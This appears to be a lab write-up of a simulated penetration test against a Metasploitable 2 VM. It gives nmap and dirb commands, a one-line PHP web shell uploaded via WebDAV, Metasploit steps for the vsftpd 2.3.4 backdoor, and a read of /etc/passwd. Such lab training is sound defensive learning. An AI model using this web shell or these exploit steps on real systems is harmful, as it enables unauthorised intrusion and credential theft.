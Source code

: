 Project 3: Penetration Testing in a Lab

# Goal

Simulate a penetration test against a vulnerable machine in a safe lab environment, then document the findings.

# Methodology

The penetration test followed a structured approach:

1. Reconnaissance & Scanning
2. Vulnerability Scanning
3. Exploitation
4. Post-Exploitation
5. Reporting

# Scope

Attacker VM: Kali Linux

Target VM: Metasploitable 2

Environment: Host-only network

# Tools Used

- Nmap (port/service discovery)
- Dirb (web vulnerability scanning)
- Cadaver (file injection)
- Metasploit Framework (exploitation)

# Attack Path

## 1\. Reconnaissance & Scanning

Find open ports and services:

_nmap -sV -A &lt;target_IP&gt;_

- \-sV → service/version detection
- \-A → OS detection, traceroute, script scanning

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![](./Screenshots/nmap.png)


## 2\. Web Vulnerability Scanning

Check the web service:

_dirb http://&lt;target_IP&gt;_

- Looks for accessible web servers.

![](./Screenshots/dirb.png)


## 3\. WebDav file injection

Create a shell.php file and add _&lt;?php system($\_GET\['cmd'\]); ?&gt;_

_cadaver http://&lt;target_IP&gt;_

_put shell.php_

Now you have Remote Code Execution (RCE) on the server.

![](./Screenshots/cadaver.png)

## 4\. Exploitation with Metasploit

Example: FTP Backdoor Exploit (vsftpd 2.3.4)

_msfconsole_

_search vsftpd_

_use exploit/unix/ftp/vsftpd_234_backdoor_

_set RHOST &lt;target_IP&gt;_

_exploit_

## 5\. Post-Exploitation

Once inside:

_whoami_

_uname -a_

_cat /etc/passwd_

![](./Screenshots/msfconsole.png)






